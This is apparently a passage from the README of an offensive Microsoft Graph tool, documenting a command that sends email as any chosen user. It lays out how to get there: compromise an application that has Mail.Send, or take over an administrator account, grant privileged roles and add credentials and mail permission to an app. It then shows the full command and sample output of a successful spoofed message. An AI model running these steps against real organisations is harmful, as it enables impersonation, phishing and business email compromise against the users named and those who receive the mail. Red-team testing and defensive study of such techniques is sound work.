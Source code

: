 ![](./.github/assignprivilegedrole.png)

## Spoof-OWAEmailMessage

> Mail.Send permission REQUIRED

Options:
1. Compromise an application with Mail.Send permission assigned then use `Spoof-OWAEmailMessage`
2. Comprise user with Global Admin, Application Admin, Cloud Admin role or assign role to an existing owned user with `Assign-PrivilegedRole` -> then add password and Mail.Send permission to app -> auth as app service principal and use `Spoof-OWAEmailMessage`

#### Example:
```
# graphpython.py --command spoof-owaemailmessage --token .\token --id useremail.tospoof@company.com
```
#### Output:
```
[*] Spoof-OWAEmailMessage
================================================================================

Enter Subject: Spoofed subject
Enter Body Content: Spoofed message content
Enter toRecipients (comma-separated): target.user@company.com
Enter ccRecipients (comma-separated): cc.user@company.com
Save To Sent Items (true/false): false

[+] Email sent successfully
================================================================================
```
